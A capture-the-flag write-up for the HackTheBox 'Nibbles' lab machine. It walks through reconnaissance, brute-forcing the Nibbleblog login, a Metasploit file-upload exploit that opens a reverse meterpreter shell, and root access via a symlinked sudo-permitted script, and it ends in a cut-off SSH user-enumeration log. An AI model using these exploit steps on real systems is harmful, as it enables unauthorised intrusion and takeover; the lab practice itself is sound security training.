HackTheBox - Nibbles

Reconnaissance
Run our usual scan against TCP ports to find services:
# nmap -sC -sV -oA nmap_tcp -p- $TARGET
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-26 22:43 CET
Nmap scan report for 10.10.10.75
Host is up (0.039s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| 256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_ 256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.27 seconds
A scan on UDP didn’t reveal any additional services:
nmap -sU -p- -oA nmap_udp $TARGET
Enumeration
| Port | Service | Version | Vuln? |
|---|---|---|---|
| 22/tcp | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0) | no |
| 80/tcp | http | Apache/2.4.18 (Ubuntu) | no |
| http | Nibbleblog v.4.0.3 | yes, nibbleblog_file_uploadneeds an auth account: admin:nibbles |
OS: Ubuntu
Initial Foothold
Let’s have a look at that webserver first!
Visiting the URL: http://10.10.10.75, there’s not much going on there…

BUT. Wait a minute! There’s a comment in the source code!
<b>Hello world!</b>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
Visiting http://10.10.10.75/nibbleblog is our next move! Charming, albeit a bit empty blog :/

Let’s fire a gobuster scan to find hidden directories:
-uis the target URL-wthe wordlist to use-othe name of the output file
$ gobuster dir -u http://10.10.10.75/nibbleblog -w /usr/share/dirb/wordlists/big.txt -o gobuster_big
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.10.75/nibbleblog
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/dirb/wordlists/big.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.1.0
[+] Timeout: 10s
===============================================================
2020/10/26 23:13:25 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/README (Status: 200)
/admin (Status: 301)
/content (Status: 301)
/languages (Status: 301)
/plugins (Status: 301)
/themes (Status: 301)
===============================================================
2020/10/26 23:14:53 Finished
===============================================================
The README page contains some informations: the blog engine is nibbleblog v.4.0.3

This version of nibbleblog is affected by a vulnerability which could be very interesting: https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html
- Vulnerability Description
When uploading image files via the “My image” plugin - which is delivered with NibbleBlog by default - , NibbleBlog 4.0.3 keeps the original extension of uploaded files. This extension or the actual file type are not checked, thus it is possible to upload PHP files and gain code execution.
Please note that admin credentials are required.
There’s just one tiny-tiny problem: the admin credentials.
See, the metasploit module requires a username and a password
msf5 > use exploit/multi/http/nibbleblog_file_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(multi/http/nibbleblog_file_upload) > show options
Module options (exploit/multi/http/nibbleblog_file_upload):
Name Current Setting Required Description
---- --------------- -------- -----------
PASSWORD yes The password to authenticate with
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 80 yes The target port (TCP)
SSL false no Negotiate SSL/TLS for outgoing connections
TARGETURI / yes The base path to the web application
USERNAME yes The username to authenticate with
VHOST no HTTP server virtual host
Payload options (php/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 172.16.149.138 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Nibbleblog 4.0.3
Dead end here, we don’t have an account yet, let’s go explore other URLS!
From the github sources on https://github.com/dignajar/nibbleblog, let’s try a couple of default pages. Like maybe the installation page http://10.10.10.75/nibbleblog/install.php has something?

Nope. Then http://10.10.10.75/nibbleblog/update.php maybe?

Nope nope nope. What about the login page? http://10.10.10.75/nibbleblog/admin.php

AHAH. We found the login page!
Let’s continue exploring and check out some URLS from the gobuster scan results
For example… http://10.10.10.75/nibbleblog/admin is pretty interesting

http://10.10.10.75/nibbleblog/content/private/users.xml

Yay, found a username here: admin
Sadly, neither shadow.php nor keys.php are available :(( But hey, I found a… thing
{kind=link}
So… we have the login page, a potential username. All we are missing is the password >.<
Let’s ask the evil search engine if he knows about default credentials for nibbleblog…

Lol. That was one hell of a spoiler. Huh. Thanks, I hate that Featured Snippets .
/tableflip because I hate spoilers. Comes back, try the creds: admin:123456 and… THEY ARE WRONG.

Sooooo, fake spoiler. What an emotional rollercoster. The hunt for the password is still on!
on! So… Bruteforce maybe?
Hydra can help bruteforcing the login page, we just need to gather a few information first. Using Firefox developer tools, in the network tab, right clic on a request and select Edit and Resend to retrieve the request body: username=admin&password=admin

Options for bruteforcing a HTML post form with hydra:
-l adminto specify a single username (-Lfor a list of usernames)-P /usr/share/dict/rockyou.txtto specify a list of passwords (-pfor a single password)- IP address
- http-post-form
<login page>:<request body>:<error message>
$ hydra -l admin -P /usr/share/dict/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:F=Incorrect username or password."
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-27 18:47:08
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344409 login tries (l:1/p:14344409), ~896526 tries per task
[DATA] attacking http-post-form://10.10.10.75:80/nibbleblog/admin.php:username=^USER^&password=^PASS^:F=Incorrect username or password.
[80][http-post-form] host: 10.10.10.75 login: admin password:
[80][http-post-form] host: 10.10.10.75 login: admin password:
[80][http-post-form] host: 10.10.10.75 login: admin password:
[80][http-post-form] host: 10.10.10.75 login: admin password:
[80][http-post-form] host: 10.10.10.75 login: admin password:
[80][http-post-form] host: 10.10.10.75 login: admin password:
[80][http-post-form] host: 10.10.10.75 login: admin password:
[80][http-post-form] host: 10.10.10.75 login: admin password:
[80][http-post-form] host: 10.10.10.75 login: admin password:
[80][http-post-form] host: 10.10.10.75 login: admin password: !
[80][http-post-form] host: 10.10.10.75 login: admin password: ! !
[80][http-post-form] host: 10.10.10.75 login: admin password: !!!!
[80][http-post-form] host: 10.10.10.75 login: admin password: !!!!!
[80][http-post-form] host: 10.10.10.75 login: admin password: !!!!!!
[80][http-post-form] host: 10.10.10.75 login: admin
1 of 1 target successfully completed, 15 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-27 18:47:10
Well, bruteforce is going well! 16 tries, 16 false-positives! Checking out the admin.php page after hydra confirms that bruteforce with hydra is not going to be an option…

Okay, I’m out of ideas, let’s peak at a write-up on how to unlock the rest…
Well damn. You’re supposed to guess that the password is nibbles. I could have searched for hours I think… I tried simple passwords like admin:admin and nibbles:nibbles but I never mixed them :( Anyway, we now have access to the nibbleblog dashboard!

We can fire our metasploit module previously found now!
msf5 > use exploit/multi/http/nibbleblog_file_upload
msf5 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD nibbles
PASSWORD => nibbles
msf5 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
USERNAME => admin
msf5 exploit(multi/http/nibbleblog_file_upload) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 10.10.10.75
RHOSTS => 10.10.10.75
msf5 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI /nibbleblog
TARGETURI => /nibbleblog
msf5 exploit(multi/http/nibbleblog_file_upload) > run
[*] Started reverse TCP handler on 10.10.14.13:4444
[*] Sending stage (38288 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.75:52970) at 2020-10-27 19:18:56 +0100
[+] Deleted image.php
meterpreter >
Okay, we’ve got a sheeeeell! Non-privileged, but it’s a starting point :D
meterpreter > getuid
Server username: nibbler (1001)
meterpreter > sysinfo
Computer : Nibbles
OS : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64
Meterpreter : php/linux
And since we’re here, why not have a look at personal.zip
meterpreter > download personal.zip
[*] Downloading: personal.zip -> personal.zip
[*] Downloaded 1.81 KiB of 1.81 KiB (100.0%): personal.zip -> personal.zip
[*] download : personal.zip -> personal.zip
Privilege Escalation
So personal.zip contains a monitor.sh file (which is a copy of Tecmint_monitor.sh)…
$ unzip -l personal.zip
Archive: personal.zip
Length Date Time Name
--------- ---------- ----- ----
0 2017-12-11 03:58 personal/
0 2017-12-11 04:05 personal/stuff/
4015 2015-05-08 09:17 personal/stuff/monitor.sh
--------- -------
4015 3 files
Doing some reconnaissance, it’s a good idea to check sudo as it can be an effective privesc.
nibbler@Nibbles:/home/nibbler$ sudo -V
sudo -V
sudo: Sudo version 1.8.16
Sudoers policy plugin version 1.8.16
Sudoers file grammar version 45
Sudoers I/O plugin version 1.8.16
unable to resolve host Nibbles: Connection timed out
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User nibbler may run the following commands on Nibbles:
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
Note: DNS resolution times out here, which makes sudo… extremely slow… Be patient when waiting for the output :D
Very interesting! That means we are allowed to run /home/nibbler/personal/stuff/monitor.sh as root without sudo asking for a password. That file doesn’t exists in /home/nibbler What if I put a symlink to a shell instead of that monitor.sh script?
nibbler@Nibbles:~$ cd /home/nibbler
nibbler@Nibbles:~$ mkdir -p personal/stuff
nibbler@Nibbles:~$ cd personal/stuff
nibbler@Nibbles:/home/nibbler/personal/stuff$ ln -s /bin/bash monitor.sh
Now, run our only allowed sudo command [note: the syntax must be exactly the same than in the output of sudo -l, ie using a relative path like sudo monitor.sh will not work].
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
root.txt
Booooom. Root shell.
Deadends
SSH
enumusers
Using the ssh_enumusers from Metasploit to lists potential weak SSH users => there’s only accounts usually present on a Linux like root, mail, …
msf5 > use auxiliary/scanner/ssh/ssh_enumusers
msf5 auxiliary(scanner/ssh/ssh_enumusers) > show options
Module options (auxiliary/scanner/ssh/ssh_enumusers):
Name Current Setting Required Description
---- --------------- -------- -----------
CHECK_FALSE false no Check for false positives (random username)
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 22 yes The target port
THREADS 1 yes The number of concurrent threads (max one per host)
THRESHOLD 10 yes Amount of seconds needed before a user is considered found (timing attack only)
USERNAME no Single username to test (username spray)
USER_FILE no File containing usernames, one per line
Auxiliary action:
Name Description
---- -----------
Malformed Packet Use a malformed packet
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 10.10.10.75
RHOSTS => 10.10.10.75
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /opt/metasploit/data/wordlists/unix_users.txt
USER_FILE => /opt/metasploit/data/wordlists/unix_users.txt
msf5 auxiliary(scanner/ssh/ssh_enumusers) > run
[*] 10.10.10.75:22 - SSH - Using malformed packet technique
[*] 10.10.10.75:22 - SSH - Starting scan
[-] 10.10.10.75:22 - SSH - User '4Dgifts' not found
[-] 10.10.10.75:22 - SSH - User 'abrt' not found
[-] 10.10.10.75:22 - SSH - User 'adm' not found
[-] 10.10.10.75:22 - SSH - User 'admin' not found
[-] 10.10.10.75:22 - SSH - User 'administrator' not found
[-] 10.10.10.75:22 - SSH - User 'anon' not found
[+] 10.10.10.75:22 - SSH - User '_apt' found
[-] 10.10.10.75:22 - SSH - User 'arpwatch' not found
[-] 10.10.10.75:22 - SSH - User 'auditor' not found
[-] 10.10.10.75:22 - SSH - User 'avahi' not found
[-] 10.10.10.75:22 - SSH - User 'avahi-autoipd' not found
[+] 10.10.10.75:22 - SSH - User 'backup' found
[-] 10.10.10.75:22 - SSH - User 'bbs' not found
[-] 10.10.10.75:22 - SSH - User 'beef-xss' not found
[+] 10.10.10.75:22 - SSH - User 'bin' found
[-] 10.10.10.75:22 - SSH - User 'bitnami' not found
[-] 10.10.10.75:22 - SSH - User 'checkfs' not found
[-] 10.10.10.75:22 - SSH - User 'checkfsys' not found
[-] 10.10.10.75:22 - SSH - User 'checksys' not found
[-] 10.10.10.75:22 - SSH - User 'chronos' not found
[-] 10.10.10.75:22 - SSH - User 'chrony' not found
[-] 10.10.10.75:22 - SSH - User 'cmwlogin' not found
[-] 10.10.10.75:22 - SSH - User 'cockpit-ws' not found
[-] 10.10.10.75:22 - SSH - User 'colord' not found
[-] 10.10.10.75:22 - SSH - User 'couchdb' not found
[-] 10.10.10.75:22 - SSH - User 'cups-pk-helper' not found
[+] 10.10.10.75:22 - SSH - User 'daemon' found
[-] 10.10.10.75:22 - SSH - User 'dbadmin' not found
[-] 10.10.10.75:22 - SSH - User 'dbus' not found
[-] 10.10.10.75:22 - SSH - User 'Debian-exim' not found
[-] 10.10.10.75:22 - SSH - User 'Debian-snmp' not found
[-] 10.10.10.75:22 - SSH - User 'demo' not found
[-] 10.10.10.75:22 - SSH - User 'demos' not found
[-] 10.10.10.75:22 - SSH - User 'diag' not found
[-] 10.10.10.75:22 - SSH - User 'distccd' not found
[-] 10.10.10.75:22 - SSH - User 'dni' not found
[+] 10.10.10.75:22 - SSH - User 'dnsmasq' found
[-] 10.10.10.75:22 - SSH - User 'dradis' not found
[-] 10.10.10.75:22 - SSH - User 'EZsetup' not found
[-] 10.10.10.75:22 - SSH - User 'fal' not found
[-] 10.10.10.75:22 - SSH - User 'fax' not found
[-] 10.10.10.75:22 - SSH - User 'ftp' not found
[+] 10.10.10.75:22 - SSH - User 'games' found
[-] 10.10.10.75:22 - SSH - User 'gdm' not found
[-] 10.10.10.75:22 - SSH - User 'geoclue' not found
[+] 10.10.10.75:22 - SSH - User 'gnats' found
[-] 10.10.10.75:22 - SSH - User 'gnome-initial-setup' not found
[-] 10.10.10.75:22 - SSH - User 'gopher' not found
[-] 10.10.10.75:22 - SSH - User 'gropher' not found
[-] 10.10.10.75:22 - SSH - User 'guest' not found
[-] 10.10.10.75:22 - SSH - User 'haldaemon' not found
[-] 10.10.10.75:22 - SSH - User 'halt' not found
[-] 10.10.10.75:22 - SSH - User 'hplip' not found
[-] 10.10.10.75:22 - SSH - User 'inetsim' not found
[-] 10.10.10.75:22 - SSH - User 'informix' not found
[-] 10.10.10.75:22 - SSH - User 'install' not found
[-] 10.10.10.75:22 - SSH - User 'iodine' not found
[+] 10.10.10.75:22 - SSH - User 'irc' found
[-] 10.10.10.75:22 - SSH - User 'jet' not found
[-] 10.10.10.75:22 - SSH - User 'karaf' not found
[-] 10.10.10.75:22 - SSH - User 'kernoops' not found
[-] 10.10.10.75:22 - SSH - User 'king-phisher' not found
[-] 10.10.10.75:22 - SSH - User 'landscape' not found
[-] 10.10.10.75:22 - SSH - User 'libstoragemgmt' not found
[-] 10.10.10.75:22 - SSH - User 'libuuid' not found
[-] 10.10.10.75:22 - SSH - User 'lightdm' not found
[+] 10.10.10.75:22 - SSH - User 'list' found
[-] 10.10.10.75:22 - SSH - User 'listen' not found
[+] 10.10.10.75:22 - SSH - User 'lp' found
[-] 10.10.10.75:22 - SSH - User 'lpadm' not found
[-] 10.10.10.75:22 - SSH - User 'lpadmin' not found
[+] 10.10.10.75:22 - SSH - User 'lxd' found
[-] 10.10.10.75:22 - SSH - User 'lynx' not found
[+] 10.10.10.75:22 - SSH - User 'mail' found
[+] 10.10.10.75:22 - SSH - User 'man' found
[-] 10.10.10.75:22 - SSH - User 'me' not found
[+] 10.10.10.75:22 - SSH - User 'messagebus' found
[-] 10.10.10.75:22 - SSH - User 'miredo' not found
[-] 10.10.10.75:22 - SSH - User 'mountfs' not found
[-] 10.10.10.75:22 - SSH - User 'mountfsys' not found
[-] 10.10.10.75:22 - SSH - User 'mountsys' not found
[+] 10.10.10.75:22 - SSH - User 'mysql' found
[+] 10.10.10.75:22 - SSH - User 'news' found
[-] 10.10.10.75:22 - SSH - User 'noaccess' not found
[+] 10.10.10.75:22 - SSH - User 'nobody' found
[-] 10.10.10.75:22 - SSH - User 'nobody4' not found
[-] 10.10.10.75:22 - SSH - User 'ntp' not found
[-] 10.10.10.75:22 - SSH - User 'nuucp' not found
[-] 10.10.10.75:22 - SSH - User 'nxautomation' not found
[-] 10.10.10.75:22 - SSH - User 'nxpgsql' not found
[-] 10.10.10.75:22 - SSH - User 'omi' not found
[-] 10.10.10.75:22 - SSH - User 'omsagent' not found
[-] 10.10.10.75:22 - SSH - User 'operator' not found
[-] 10.10.10.75:22 - SSH - User 'oracle' not found
[-] 10.10.10.75:22 - SSH - User 'OutOfBox' not found
[-] 10.10.10.75:22 - SSH - User 'pi' not found
[-] 10.10.10.75:22 - SSH - User 'polkitd' not found
[-] 10.10.10.75:22 - SSH - User 'pollinate' not found
[-] 10.10.10.75:22 - SSH - User 'popr' not found
[-] 10.10.10.75:22 - SSH - User 'postfix' not found
[-] 10.10.10.75:22 - SSH - User 'postgres' not found
[-] 10.10.10.75:22 - SSH - User 'postmaster' not found
[-] 10.10.10.75:22 - SSH - User 'printer' not found
[+] 10.10.10.75:22 - SSH - User 'proxy' found
[-] 10.10.10.75:22 - SSH - User 'pulse' not found
[-] 10.10.10.75:22 - SSH - User 'redsocks' not found
